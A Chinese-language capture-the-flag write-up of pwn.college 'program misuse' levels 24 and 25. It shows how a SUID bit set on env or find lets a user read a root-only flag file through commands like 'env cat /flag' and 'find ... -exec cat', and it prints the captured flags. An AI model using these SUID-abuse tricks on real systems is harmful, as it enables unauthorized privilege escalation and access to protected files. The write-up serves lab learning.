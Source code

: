 **小总结：倒是知道了很多以前不知道的工具。**

## level24 Enables you to read flags by making them execute other commands!

```
sh hacker@program-misuse-level-24:~$ sh file.sh
Welcome to ./babysuid_level24!

This challenge is part of a series of programs that
will enable you to read flags by making them execute other commands.

I just set the SUID bit on /usr/bin/env.
Try to use it to read the flag!

IMPORTANT: make sure to run me (./babysuid_level24) every time that you restart
this challenge container to make sure that I set the SUID bit on /usr/bin/env!
```
开始有意思起来了。
```
hacker@program-misuse-level-24:~$ env cat /flag
pwn.college{8rPxiO1f2sBGHUvcT83glFWNSpM.0lN2EDL2QjMyMzW}
hacker@program-misuse-level-24:~$
```
env可以给其他的程序赋权？感觉是这个意思，当然出题人想要的意思应该是需要先设一个shell，然后执行。

## level25 Enables you to read flags by making them execute other commands!

```
hacker@program-misuse-level-25:~$ sh file.sh
Welcome to ./babysuid_level25!

This challenge is part of a series of programs that
will enable you to read flags by making them execute other commands.

I just set the SUID bit on /usr/bin/find.
Try to use it to read the flag!

IMPORTANT: make sure to run me (./babysuid_level25) every time that you restart
this challenge container to make sure that I set the SUID bit on /usr/bin/find!
```
使用find
```
hacker@program-misuse-level-25:~$ find / -type f -name "flag" -exec cat {} \;
pwn.college{Uomlfru_u94ZuszsvlNzA0n6x39.01N2EDL2QjMyMzW}
hacker@program-misuse-level-25:~$
```
这里需要考虑的是find只是找到，如何读取？

- 使用`-exec`

## level26 Enables you to read flags by making them execute other commands!
